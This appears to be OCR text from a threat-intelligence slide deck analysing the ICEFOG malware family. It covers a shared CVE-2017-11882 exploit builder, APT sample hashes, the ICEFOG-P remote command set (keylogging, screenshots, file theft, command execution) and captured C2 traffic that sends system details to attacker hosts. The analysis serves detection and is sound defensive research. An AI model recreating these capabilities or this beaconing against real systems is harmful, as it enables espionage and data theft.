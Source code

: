 
Hunting Malware FunctionsICEFOG-NG CommunicationICEFOG-NG Encrypt FunctionICEFOG-Type 1 Encrypt FunctionICEFOG OSX Encrypt Function

View Slide



The CVE2017-11882 Exploit Template• Also, great research from Anomali.• https://www.anomali.com/blog/analyzing-digital-quartermasters-in-asia-do-chinese-and-indian-apts-have-a-shared-supply-chainShellcode decode routineOpen Document Encoded (0xFC) Dropper(8.t)Drops into%temp%Shellcodedecode &executeMalwareCan be hunted by the RTF ObjectDropper

View Slide



The Shared Exploit Builder• CVE 2017-11882 exploit template.• Actually, shared among at least 3 different groups. (APT40, Conimes team aka GoblinPanda, ICEFOG Operators)Threat Group Hash Malware Create Date AuthorTargetedRegionAPT40d5a7dd7441dc2b05464a21dd0c0871ffBEACON 2017-12-07 08:17:00 Windows User USATemp.CONIMESf223e4175649fa2e34271db8c968db12TEMPFUN 2018-01-15 14:47:00 Windows User LAOTemp.CONIMES07544892999b91ae2c9280d8ee3c663aTEMPFUN 2018-01-17 09:04:00 Windows User VNMTemp.CONIMES45a94b3b13101c932a72d89ff5eb715aTEMPFUN 2018-01-31 11:24:00 Windows User VNMICEFOG Operator46d91a91ecdf9c0abc7355c4e7cf08fcICEFOG 2018-02-22 20:07:00 T TURICEFOG Operator80883df4e89d5632fa72a85057773538ICEFOG 2018-02-22 20:07:00 T KZ, RU

View Slide



Two ICEFOG Variants (2014 - 2019)ICEFOG - P ICEFOG -MSupport platform Windows(x86 & x64)Windows(shellcode)First Seen 2014 2018CommunicationProtocolHTTP HTTPS (port 443)

View Slide



ICEFOG-P (New) Command Descriptioncmd_ Execute the command received from C&Cdownload_ Download file from specified URLfilelist_ Obtaining the list of files within specified folder.upload_ File loading from the server to computer.delete_ Delete specified filerename_ Move file to specified locationnewdir_ Create specified directorybeforecontinuefile_ Reset connection to the servercontinuefile_ Resume the file download from the server.exit_ Terminate Process.transover_ Termination of current thread.screen_ Send screenshot to C&C server.key_ Send keylogger’s log file to C&Cdisklist_ Setting monitored foldersdisklog_ Upload monitored folder’s datacode_ (removed) run code from file to memoryNew supported commandsGentle reminder for entering the main function20130505Check if system date < 20130505Anti-sandbox?

View Slide



ICEFOG-P (New)POST /upload.aspx?filepath=info&filename=_address>.jpg HTTP/1.1User-Agent: Internet ExplorerHost: foo.comContent-Length: 862Cache-Control: no-cacheHOST NAME:WINDOWS7USER NAME:userOS Version: Microsoft Windows 7 x86 Service Pack 1 (Build 7601)CPU: GenuineIntel Intel64 Family 6 Model 142 Stepping 9 0MHZPhysical memory: Total physical memory:1023MB,Availablememory:388MBWindows Directory: C:\\WindowsSystem Directory: C:\\Windows\\system32Hard Disk: C:\\ (NTFS)CD-ROM Disk: D:\\Disk space: Total disk space:39G,The remaining disk space:15GPOST/news/upload.aspx?filepath=ok&filename=stname>_.jpg HTTP/1.1Host: icefog.8.100911.comAccept: image/gif, image/x-xbitmap,image/jpeg, image/pjpeg, */*Accept-Language: en-usContent-Type: multipart/form-dataAccept-Encoding: gzip, deflateConnection: Keep-AliveCache-Control: no-cacheUser-Agent: MyAgentContent-Length: 0Traffic of ICEFOG-PTraffic of ICEFOG Type 1Adds physical machineinformation likely forfiltering out sandbox oranalysis environment
